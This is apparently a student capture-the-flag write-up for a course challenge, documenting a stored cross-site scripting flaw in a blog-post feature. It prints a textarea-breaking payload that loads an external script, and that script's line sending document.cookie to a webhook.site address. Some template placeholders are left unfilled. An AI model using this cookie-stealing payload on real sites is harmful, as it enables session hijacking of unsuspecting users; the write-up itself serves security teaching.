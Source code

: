 # Challenge `Read_my_lips:No_more_scripts!` writeup

- **Vulnerability:** Cross-Site Scripting (XSS)
  - _The payload `</textarea><script src="http://web.tecnico.ulisboa.pt/ist198956/estudasses.js"></script><textarea>` was successfully injected, indicating an XSS vulnerability._

- **Where:** Location of the Vulnerability
  - _The XSS vulnerability is present in the blog post functionality of the site._

- **Impact:** Potential Consequences of Exploiting the Vulnerability
  - _The exploitation of this XSS vulnerability could allow an attacker to execute arbitrary scripts on the client's browser, potentially leading to unauthorized access, session hijacking, or other malicious activities._

- **Observations:**
  - _Include any additional information or observations relevant to the challenge._

## Steps to Reproduce

1. _Navigate to the blog post creation page._
   - _Visit the following URL: `http://mustard.stt.rnl.tecnico.ulisboa.pt:23254/`._

2. _Craft a blog post with the following payload in the content:_
   - _Payload: `<textarea><script src="http://web.tecnico.ulisboa.pt/ist198956/estudasses.js"></script><textarea>`._
   - this site has this code: window.open("https://webhook.site/3a9f1629-aa07-4da4-b8b1-890c4834ceaf?c="+document.cookie)


3. _Publish the blog post._

4. _Access the published blog post to trigger the XSS vulnerability._

## Proof of Concept

[(POC)](`name_of_the_challenge_poc.html`)

```html
<textarea><script src="http://web.tecnico.ulisboa.pt/ist198956/estudasses.js"></script><textarea>

